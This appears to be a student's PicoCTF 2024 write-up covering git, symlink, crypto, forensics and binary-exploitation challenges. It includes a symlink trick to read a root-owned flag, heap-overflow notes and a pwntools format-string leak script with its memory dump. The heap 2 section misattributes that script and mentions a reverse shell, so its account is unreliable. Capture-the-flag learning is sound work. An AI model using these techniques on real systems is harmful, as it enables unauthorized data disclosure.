




**Description:** 

We took part in the PicoCTF 2024 edition with our team. An amazing, very first international contest in hacking for us. 

After struggling and battling very hard, our team made some quite good results as we weren’t expecting to reach such a place for our first participation and for the abandon of two of our mates. We ended up at the 596th place in the world with 4025 points.

And among the first 50 teams in the Africa Undergraduate teams.

The competition was Jeopardy mode with essentially categories as General Skills, Web exploitation, Cryptography, Forensics, Steganography, Binary exploitation and reverse engineering.

**—  General Skills —**

**Challenge 1:** Super SSH

The purpose of this challenge was to connect via a remote connection to a server through ssh to find the flag. Pretty easy with the command syntax known, I must admit.

You enter the command using the given password to authenticate, and then you get the flag.

**Challenge 2:** Commitment issues

The following challenges deal with git command line issues and security issues.

The first is based on a commitment issue.

When you download the zip repository and unzip it you get a .git repository and so, I did. Once I did that I was first unsettle on what to look for, so I took a look at the hints to find out that we need to find the recent commits made.

I firstly made some searches on the git checkout command to use to find information about past commits, but I didn't get any useful information I then try the command git show HEAD in the repository

**Challenge 3:** Time machine

The context of this challenge was also the git environment.

Using the same method? Not exactly, I didn't have to here because just with the cat git show HEAD, I didn’t get anything useful. But then I made some research online and found out the .git/logs/HEAD file that contains all the existing information on the possible git operations made on a repository. So I inspect the drop-in repository that I got looking for it with the ls command. It was in there and I have the permission to read it. And then I got the flag.

. And it contains our flag. 

**Challenge 4 :**  Blame Game

` `Same contest about git environment, to resolve it I still use the git versioning with the exact command.

**Challenge 5 :** Collaborative Development 

` `This challenge is also similar to the other, as for the context. But the issue here was about the merging of the branches included in the git repository.  I first tried to merge the branches, but for that I needed a proper HEAD. So,  I simply decide to switch between the different branches to retrieve the content of the flag.py file.

There are totally 3 branches on the git repository: feature/part-1 o 3. 

I firstly look for the id of the all the commits that were sent to the repository.

Now let’s go on branch feature/part-1 and the feature/part-2 

**Challenge 6:** Binhexa

This challenge was based on evaluating your knowledge of binary operations.  When you launch the instance, you will get ssh authentication information to a remote machine that execute a program written in python. It’ s a game interface which you will play to get the flag. The game is all as I said before about binary operations. So make sure to be prepared. But you can still also used online calculator but still it won’t be fun anymore. So, ...

**Challenge 7 :** Binary Search 

The challenge here is a little bit shifty.  As it is a real game of guessing.  You’ll have to find the mystery number of the program to find the flag.

I easily guess that randomly guess the number with such a big number of possibilities was too much.  Let me explain. 

So you can see from this that there were 1000 possibles answers. So I remember an old mathematics topic I once learned in grade 12th about dichotomy to find the approximate value of a variable in an interval.

It stated here that approximating the value of a number that is within an interval reduces the error on the value by half. So I simply apply that method.  Although my first two guesses were a little tricky or risky, I still guess right because it considerably reduces my interval.  And once I get it, I just have to use the method to get the flag.

**Challenge 8:** Endianness

This challenge was just a little intuitive on the process to solve it, but not that difficult. The remote system on which the flag was stored on contains a program that generate a random string and asks you its little and big endianness.  For me, I just google endianness to know what it was about and I get the explanation.

**The attribute of a system that indicates whether integers are represented with the most significant byte stored at the lowest address (big endian) or at the highest address (little endian)**.

I then use endianness converter to get the demanded endianness, and then I got the flag. 

**Challenge 9:** dont-you-love-banners

A very interesting one, A very tricky one I must admit, mainly for the questions to answer to.

I firstly got the leaked password to answer the first question.  The authentication to the machine was based on the answers to the following questions.

Once I login, I try viewing the content, looking for the flag or instructions to get it. I find a banner and a text file.  

The banner file contains the banner of the login program. The text file tells searching deeper, So I decide to go and look in the root directory. And I got the flag.txt and a python script. The flag.txt is not readable (permission denied). The script was more interesting and useful.  

Do you see the strange file that is open as the banner? It’s our banner file from the home/player directory. I have seen that I have all the permissions on the file, intriguing.  But until then, I didn’t know what exactly I could do with it. I then saw the hint asking about symlinks.  Yeah, symlinks are the reference we build to index a file when calling another file to a command execution on Linux. So if I build a link from banner to /root/flag.txt I will be able to open it as in the script it is executed with all the privileges. 

So, I first delete the default banner and replace it through the symbolic link.

And then I got the flag.

**—  Web Exploitation —**

I wasn’t able to solve so many web challenges this time, Most of them were solved by my teammate. 

**Challenge 1:**  Web Decode

Just follow the hint and inspect the page.  And I got an encoded string in the first HTML tag of the body in the *About page.* 

And I just decode the base64 string with Cyberchef. 

**— Cryptography —**

**Challenge 1:** interencdec

Decoding cipher text is the basic of all cryptography challenges, and this is not an exception.

The challenge file contains a cipher text that was likely base64 due to its ending. So I use cyberchef to decode it and I got another cipher that I just softly modify to get the next good cipher that I decoded to get the flag.

**Challenge 2:**  C3

I got two files, one containing ciphertext and another one was a python script that was used to encrypt the readable text I guess. 

|**from** random **import** randint **import** sys  **def** **generator**(g, x, p): `   `**return** pow(g, x) % p   **def** **encrypt**(plaintext, key): `   `cipher = [] `   `**for** char **in** plaintext: `       `cipher.append(((ord(char) \* key\*311))) `   `**return** cipher   **def** **is\_prime**(p): `   `v = 0 `   `**for** i **in** range(2, p + 1): `       `**if** p % i == 0: `           `v = v + 1 `   `**if** v > 1: `       `**return** **False** `   `**else**: `       `**return** **True**  **def** **dynamic\_xor\_encrypt**(plaintext, text\_key): `   `cipher\_text = "" `   `key\_length = len(text\_key) `   `**for** i, char **in** enumerate(plaintext[::-1]): `       `key\_char = text\_key[i % key\_length] `       `encrypted\_char = chr(ord(char) ^ ord(key\_char)) `       `cipher\_text += encrypted\_char `   `**return** cipher\_text   **def** **test**(plain\_text, text\_key): `   `p = 97 `   `g = 31 `   `**if** **not** is\_prime(p) **and** **not** is\_prime(g): `       `print("Enter prime numbers") `       `**return** `   `a = randint(p-10, p) `   `b = randint(g-10, g) `   `print(f"a = {a}") `   `print(f"b = {b}") `   `u = generator(g, a, p) `   `v = generator(g, b, p) `   `key = generator(v, a, p) `   `b\_key = generator(u, b, p) `   `shared\_key = **None** `   `**if** key == b\_key: `       `shared\_key = key `   `**else**: `       `print("Invalid key") `       `**return** `   `semi\_cipher = dynamic\_xor\_encrypt(plain\_text, text\_key) `   `cipher = encrypt(semi\_cipher, shared\_key) `   `print(f'cipher is: {cipher}')   **if** \_\_name\_\_ == "\_\_main\_\_": `   `message = sys.argv[1] `   `test(message, "trudeau")|
| - |

Due to the hierarchical method of encryption used, it was obvious to me that I will have to write a decryption script.  And that’s what I did. 

Here is the decryption script: 

|**import** sys cipher = ""   **from** fileinput **import** input **for** line **in** input(): `  `cipher += line   lookup1 = "\n \"#()\*+/1:=[]abcdefghijklmnopqrstuvwxyz" lookup2 = "ABCDEFGHIJKLMNOPQRSTabcdefghijklmnopqrst"  plaintext=""  prev = 0 **for** char **in** cipher: `    `index= lookup2.index(char) `    `word=lookup1[(index+prev)%40] `    `prev=lookup1.index(word) `    `plaintext += word  b = 1 / 1  **print** (plaintext)|
| - |

The plaintext, to my surprise is another code in python. After reading it, I thought it was maybe the last part of the decryption to do, but I don’t know what exact part of the code I had to add to my script. 

|
*#asciiorder* *#fortychars* *#selfinput* *#pythontwo*

# observe here that there is a fileinput that is given to the program. chars = "" **from** fileinput **import** input **for** line **in** input(): `    `chars += line b = 1 / 1  **for** i **in** range(len(chars)): `    `**if** i == b \* b \* b: `        `**print** chars[i] *#prints* `        `b += 1 / 1
|
| - |

For some reason, I fill like I had already completed the file content reading part in my own script, so I choose to complete my script with the last part of the code.  

And then I was able to obtain a sort of string that I doubt but still it works. 

**— Binary Exploitation —**

This PicoCTF really introduced me to the binary exploitation in its challenging and amazing aspect.  I sure struggle, but It was fun. And I really want to show you what I learned and how I achieve this, so I will certainly be writing a whole article specially for the Binary Exploitation challenge.

**Challenge1:**  heap 0

The heap 0 challenge is base on heap manipulation vulnerability in C programming. In fact, the heap in C program is very sensitive to buffer overflow when the memory allocated to a specific variable is being insufficient to the amount of data it is asked to carry.  And once it happens, you can easily rewrite another space in the memory: That’s briefly how the heap exploitation work.

For this challenge, the whole thing was to find the exact size of data you will have to push in  the memory to rewrite the buffer from *bico* to another value.* 

I first give it a try with a guess and I have seen it rewrite a part of the buffer and the next thing was just to achieve the good size and it worked out.

**Challenge 2:**  format-string 1

The concept was the same at least, I find it out by analyzing the source code.  So, I try sending a big amount of formatted strings to the memory to create a buffer overflow, and it leaked out the memory like a dump of it. Here we go. As I told you before, the goal is to rewrite a part of the memory.  But for this challenge the goal wasn’t that easy or at least simple. You didn’t have to rewrite the buffer but to manipulate efficiently the memory to leak its content, among which was the flag.

I used a special format to achieve this “**%lx**”.  It’s the string that is used to format and print unsigned long hexadecimal values.  The leak of the memory is still in hexadecimal . Now I have to look deeper there to find the flag.

So I copy the memory in cyberchef and analyze it with cyberchef and then with a little manipulation and intuition I was able to retrieve the flag.  You’ll just have to exploit endianness swapping to get the right order of the flag.

*Unreadable content* 

Let’s dig with a little trick in this encoding by removing some bytes front and at the end of the 

stack.  We will then start getting our content. 

**Challenge 3:**  heap 1

For this challenge, the whole thing was to find the exact size of data you will have to push in  the memory to rewrite the buffer from *bico* to *pico.* A little change to the heap 0 challenge.

**Challenge 4:** heap 2

This was one of the most crazy challenge I had to solve, specially for my first time dealing with Binary exploitation.  After analyzing the code, I quickly figure out it won’t be so easy to get the flag.

|*#include <stdio.h>* *#include <stdlib.h>* *#include <string.h>*  *#define FLAGSIZE\_MAX 64*  int num\_allocs; char \*x; char \*input\_data;  void win() { `	`// Print flag `	`char buf[FLAGSIZE\_MAX]; `	`FILE \*fd = fopen("flag.txt", "r"); `	`fgets(buf, FLAGSIZE\_MAX, fd); `	`printf("%s\n", buf); `	`fflush(stdout);  `	`exit(0); }  void check\_win() { ((void (\*)())\*(int\*)x)(); }  void print\_menu() { `	`printf("\n1. Print Heap\n2. Write to buffer\n3. Print x\n4. Print Flag\n5. " `       	`"Exit\n\nEnter your choice: "); `	`fflush(stdout); }  void init() {  `	`printf("\nI have a function, I sometimes like to call it, maybe you should change it\n"); `	`fflush(stdout);  `	`input\_data = malloc(5); `	`strncpy(input\_data, "pico", 5); `	`x = malloc(5); `	`strncpy(x, "bico", 5); }  void write\_buffer() { `	`printf("Data for buffer: "); `	`fflush(stdout); `	`scanf("%s", input\_data); }  void print\_heap() { `	`printf("[\*]   Address   ->   Value   \n"); `	`printf("+-------------+-----------+\n"); `	`printf("[\*]   %p  ->   %s\n", input\_data, input\_data); `	`printf("+-------------+-----------+\n"); `	`printf("[\*]   %p  ->   %s\n", x, x); `	`fflush(stdout); }  int main(void) {  `	`// Setup `	`init();  `	`int choice;  `	`**while** (1) { `    	`print\_menu(); `    `**if** (scanf("%d", &choice) != 1) exit(0);  `    	`switch (choice) { `    	`case 1: `        	`// **print** heap `        	`print\_heap(); `        	`**break**; `    	`case 2: `        	`write\_buffer(); `        	`**break**; `    	`case 3: `        	`// **print** x `        	`printf("\n\nx = %s\n\n", x); `        	`fflush(stdout); `        	`**break**; `    	`case 4: `        	`// Check **for** win condition `        	`check\_win(); `        	`**break**; `    	`case 5: `        	`// exit `        	`**return** 0; `    	`default: `        	`printf("Invalid choice\n"); `        	`fflush(stdout); `    	`} `	`} }|
| - |

So the win function() need to be called before we get the flag.  So, I quickly set my objective  finding the address of this function and call it.  But how ?

I then google it. How to call a function using the memory and bufferoverflow. Why with buffer overflow, just because I know that I can manipulate the entry that I send to the memory thanks to the weak control on the user entry in the program, which was using scanf function. 

So I went in gef a binary exploitation tool to analyze the heap and figure, out what I can do to specify the address of my win function().  I will skip some details of the process here for a future article, but here is a little resume.

The rip is where my entry goes in the memory allocated to the running program.  So what I have to do is to send the address of the win function in the rip to get it to be executed. I use readelf command to get the memory addresses of the program.  And I sent a lot of data in the x variable to find the outcoming to see how I can run it.  Finally, it was a little tricky but I had to run a reverse shell sending my payload to get the flag.

Here is the payload script: 

|**import** pwn **import** argparse  pwn.context.log\_level = "CRITICAL"  parser=argparse.ArgumentParser() parser.add\_argument("destination", type=str, choices={"local", "remote"}) parser.add\_argument("--target", "-t", type=str, default="", required=**False**) parser.add\_argument("--port", "-p", type=int, default=0, required=**False**) args=parser.parse\_args()  elf=pwn.ELF("./format-string-1")   new\_eip=pwn.p32(elf.symbols["win"])  **for** i **in** range(1, 256): `	`payload =b"".join([ `    	`b"%" + str(i).encode("utf-8") + b"$lx", `    	`] `	`)  `	`**if** args.destination == "local": `    	`p=elf.process() `	`**elif** args.destination == "remote": `    	`**if** **not** args.target **or** **not** args.port: `        	`pwn.warning("Give target and connection port") `        	`exit() `        	`p = pwn.remote(args.target, args.port)  `	`p.recvuntil(b'') `	`p.sendline(payload) `	`answer = p.recvall().decode('latin-1') `	`print(answer)  encode="" encode+="".join( x **for** x **in** "402118-0-7f4438dcea00-0-11a5880-a347834-7ffd682d13a0-7f4438bbfe60-7f4438de44d0-1-7ffd682d1470-0-0-7b4654436f636970-355f31346d316e34-3478345f33317937-31395f673431665f-7d653464663533-7-7f4438de68d8-2300000007-206e693374307250-a336c797453-9-7f4438df7de9-7f4438bc8098-7f4438de44d0-0-7ffd682d1480-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-0-11a3680-1-7f4438be1d90-0-4011f6-100000000-7ffd682d18f8-0-cbb36f4493fa1e15-7ffd682d18f8-4011f6-403e18-7f4438e20040-3449bf1ebc181e15-353b1e38a9701e15-7f4400000000-0-0-0-0-4f23a51a36a64b00-0-7f4438be1e40-7ffd682d1908-403e18-7f4438e212e0-0-0-401110-7ffd682d18f0-0-0-401135-7ffd682d18e8-1c-1-7ffd682d1ea6-0-7ffd682d1ec1-7ffd682d1ed4-7ffd682d1edc-7ffd682d1ef9-7ffd682d1f04-7ffd682d1f19-7ffd682d1f37-7ffd682d1f4d-7ffd682d1f61-7ffd682d1f72-7ffd682d1fb4-7ffd682d1fc3-7ffd682d1fd0-0-21-7ffd683ec000-33-e30-10-1f8bfbff-6-1000-11-64-3-400040-4-38-5-d-7-7f4438de6000-8-0-9-401110-b-0-c-0-d-0-e-0-17-0-19-7ffd682d1ae9-1a-2-1f-7ffd682d1fdd-f-7ffd682d1af9-1b-1c-1c-20-0-0-".split("-")) print(encode) memory = [pwn.p64(int(x,16)) **for** x **in** "402118-0-7f4438dcea00-0-11a5880-a347834-7ffd682d13a0-7f4438bbfe60-7f4438de44d0-1-7ffd682d1470-0-0-7b4654436f636970-355f31346d316e34-3478345f33317937-31395f673431665f-7d653464663533-7-7f4438de68d8-2300000007-206e693374307250-a336c797453-9-7f4438df7de9-7f4438bc8098-7f4438de44d0-0-7ffd682d1480-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-2d786c252d786c25-0-11a3680-1-7f4438be1d90-0-4011f6-100000000-7ffd682d18f8-0-cbb36f4493fa1e15-7ffd682d18f8-4011f6-403e18-7f4438e20040-3449bf1ebc181e15-353b1e38a9701e15-7f4400000000-0-0-0-0-4f23a51a36a64b00-0-7f4438be1e40-7ffd682d1908-403e18-7f4438e212e0-0-0-401110-7ffd682d18f0-0-0-401135-7ffd682d18e8-1c-1-7ffd682d1ea6-0-7ffd682d1ec1-7ffd682d1ed4-7ffd682d1edc-7ffd682d1ef9-7ffd682d1f04-7ffd682d1f19-7ffd682d1f37-7ffd682d1f4d-7ffd682d1f61-7ffd682d1f72-7ffd682d1fb4-7ffd682d1fc3-7ffd682d1fd0-0-21-7ffd683ec000-33-e30-10-1f8bfbff-6-1000-11-64-3-400040-4-38-5-d-7-7f4438de6000-8-0-9-401110-b-0-c-0-d-0-e-0-17-0-19-7ffd682d1ae9-1a-2-1f-7ffd682d1fdd-f-7ffd682d1af9-1b-1c-1c-20-0-0-".split("-") **if** x] print(memory)|
| :- |

**— Forensics —**

**Challenge 1:** Scan Surprise

` `The zip file given contains an image which is a QR code in which the flag is embedded. 

**Challenge 2:** endianness-v2

A messy file that is normally meant to be an image.  

The context is simple: The file of the challenge contains the flag, but when you try to open it you get an error. So you have to correct the errors. I use file and exiftool first to find the original type of the file looking for extension or any comments in the metadata as well Anyway finally I found out that it is originally a JPEG image file but the bytes in it were in a complete disorder. Because even after giving the right order in the extension, I was still unable to load the image. So next step, reorder the bytes.  The tile of the challenge is explicit “*endianness”*  this was where I found out that the bytes in an  image can be rearranged using endianness swap.  I then find out after some analysis that the bytes have been reversed each time after 4  bytes. So, the solution was to reorder by block of 4 bytes. I did this with a script. And then I got the flag that was written on the image.

I used the following script: 

|**def** **swap\_endianness**(image\_bytes, swap\_size=4): `  `new\_bytes = bytearray() `  `**for** i **in** range(0, len(image\_bytes), swap\_size): `	`chunk = image\_bytes[i:i+swap\_size] `	`chunk = chunk[::-1] `	`new\_bytes.extend(chunk) `  `**return** bytes(new\_bytes)  **def** **main**(): `  `""" `  `Reads image bytes from a file, swaps endianness, and writes the modified bytes to a new file. `  `""" `  `new\_image = "./new\_image.jpg"  `  `**with** open("./image.jpg", "rb") **as** file: `	`image\_bytes = file.read()  `  `modified\_bytes = swap\_endianness(image\_bytes)   `  `*# Change swap\_size by 4 to get the possible right endianness*   `  `**with** open(new\_image, "wb") **as** image: `	`image.write(modified\_bytes)  `  `print(f"Image endianness swapped and saved to {new\_image}")  **if** \_\_name\_\_ == "\_\_main\_\_": `  `main()|
| :- |

I made here a writeup of the challenges I had solved then.  My team solved some other interesting challenges that I will also be sharing soon. This PicoCTF was very fun. 

